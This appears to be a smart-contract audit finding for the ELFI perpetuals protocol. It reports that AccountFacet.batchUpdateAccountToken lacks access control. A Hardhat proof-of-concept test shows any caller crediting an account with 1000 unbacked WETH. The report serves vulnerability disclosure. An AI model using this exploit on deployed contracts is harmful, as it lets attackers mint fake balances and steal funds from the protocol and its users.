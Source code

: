 Soft Blonde Hamster

high

# `AccountFacet.batchUpdateAccountToken` has no access control

## Summary
`AccountFacet.batchUpdateAccountToken` has no access control

## Vulnerability Detail
### POC
1. Deposit 1 WETH to user0.
2. Call `accountFacet.batchUpdateAccountToken(user0, [weth], [1000e18])`.
3. user0 has 1001 WETH according to the account info.

Create a file `elfi-perp-contracts/test/single-cases/batchUpdateAccountToken.test.ts` as below.

```typescript
import { expect } from 'chai'
import { Fixture, deployFixture } from '@test/deployFixture'
import { precision } from '@utils/precision'
import {
  AccountFacet,
  ConfigFacet,
  FeeFacet,
  MarketFacet,
  MockToken,
  OrderFacet,
  PoolFacet,
  PositionFacet,
  TradeVault,
} from 'types'
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers'
import { Contract } from 'ethers'
import { handleOrder } from '@utils/order'
import { handleMint } from '@utils/mint'
import { OrderSide, PositionSide } from '@utils/constants'
import { account } from '@utils/account'
import { deposit } from '@utils/deposit'
import { ethers } from 'hardhat'
import { oracles } from '@utils/oracles'
import accountFacet from "../../deploy/facets/AccountFacet";

describe('batchUpdateAccountToken', function () {
  let fixture: Fixture
  let tradeVault: TradeVault,
    marketFacet: MarketFacet,
    poolFacet: PoolFacet,
    accountFacet: AccountFacet,
    positionFacet: PositionFacet,
    feeFacet: FeeFacet,
    configFacet: ConfigFacet
  let user0: HardhatEthersSigner, user1: HardhatEthersSigner, user2: HardhatEthersSigner
  let tradeVaultAddr: string,
    portfolioVaultAddr: string,
    wbtcAddr: string,
    wethAddr: string,
    usdcAddr: string
  let btcUsd: string, ethUsd: string, xBtc: string, xEth: string, xUsd: string
  let wbtc: MockToken, weth: MockToken, usdc: MockToken

  beforeEach(async () => {
    fixture = await deployFixture()
    ;({tradeVault, marketFacet, poolFacet, accountFacet, positionFacet, feeFacet, configFacet} = fixture.contracts)
    ;({user0, user1, user2} = fixture.accounts)
    ;({btcUsd, ethUsd} = fixture.symbols)
    ;({xBtc, xEth, xUsd} = fixture.pools)
    ;({wbtc, weth, usdc} = fixture.tokens)
    ;({tradeVaultAddr, portfolioVaultAddr} = fixture.addresses)
    wbtcAddr = await wbtc.getAddress()
    wethAddr = await weth.getAddress()
    usdcAddr = await usdc.getAddress()
  })

  it('POC: No access control', async function () {
    const wethAmount = precision.token(1) // 1 WETH
    await deposit(fixture, {
      account: user0,
      token: weth,
      amount: wethAmount,
    })

    await accountFacet.batchUpdateAccountToken({
      account: user0.address,
      tokens: [wethAddr],
      changedTokenAmounts: [1000n * 10n ** 18n],
    });

    const accountInfo = await accountFacet.getAccountInfo(user0.address);
    expect(accountInfo.tokenBalances[0].amount).to.equals(1001n * 10n ** 18n);
  });
});
```

Then run the test.
```shell
cd elfi-perp-contracts
npm test ./test/single-cases/batchUpdateAccountToken.test.ts
```

## Impact
Users can increase their token balances at will. 

## Code Snippet

https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/7e0cead5273b386ca7a1f754483dc387671a35c1/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68

## Tool used

Manual Review

## Recommendation
Add a proper access control to `AccountFacet.batchUpdateAccountToken`.